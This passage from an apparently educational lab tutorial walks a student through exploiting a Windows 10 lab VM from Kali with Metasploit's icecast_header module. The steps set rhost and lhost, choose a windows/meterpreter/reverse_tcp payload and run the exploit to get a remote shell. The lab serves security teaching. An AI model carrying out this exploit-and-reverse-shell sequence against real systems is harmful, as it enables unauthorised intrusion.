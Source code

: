         msf exploit(icecast_header) >
        
    Indicating that the `icecast_header` module is loaded.
        
7.	To get more information about this exploit module, type `info`. This module has been rated “great,” meaning it is very effective and reliable. 
    Besides providing a better description, the `info` command shows the targets that the module is effective against, as well as options to set.

8.	To show available options, type `show options`.

9.	Let’s set the required options. First, we’ll set the remote host: 

        set rhost <IP address of your Windows 10 VM>
        
    Type `show options` again to see that the RHOST variable has been set.

10.	Next, let’s look at available payloads for this exploit: 

        show payloads

11.	We have a lot of payload options for this module. We’ll use one of the most popular and reliable payloads. Type:
 
        set payload windows/meterpreter/reverse_tcp

    Meterpreter is a shell, like Bash, except evil. This payload will open a reverse TCP connection from the exploited Windows 10 VM back to the Kali VM. 
    This is why it is important that you are able to reach Kali from Windows 10, and Windows 10 from Kali.
    
12.	Type `show options` again to see the options that are required for this payload.

13.	To set the local host variable, type 

        set lhost <IP address of the Kali machine>
        
    <div class='alert alert-info'><strong>Note:</strong> Remember that you can easily check your IP in Unix/Linux by typing ifconfig from within Metasploit. Type `show options` to see that the variable has been set.</div>

14.	With all options set, now it’s time to <span class='label label-danger'><i class='fa fa-rocket'></i> launch the exploit!</span>. Type: 

        exploit
        
    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the “meterpreter >” prompt. If you see this, then <i class='fa fa-birthday-cake'></i> congratulations! You’ve exploited your first remote host. 

16. Laugh maniacally.

    <div class='alert alert-info'><strong>Introspective question:</strong> How did it feel to laugh maniacally? Do you comprehend the potency of your newfound power? Did anyone overhear
    you laughing maniacally?</div>
    
    <div class='alert alert-danger'><strong><i class='fa fa-lg fa-info-circle'></i></strong> Never forget that you are a script kiddie.</div>
    

16. Now that we have access, let’s run a few commands to give you an idea of the power of the meterpreter interface. 
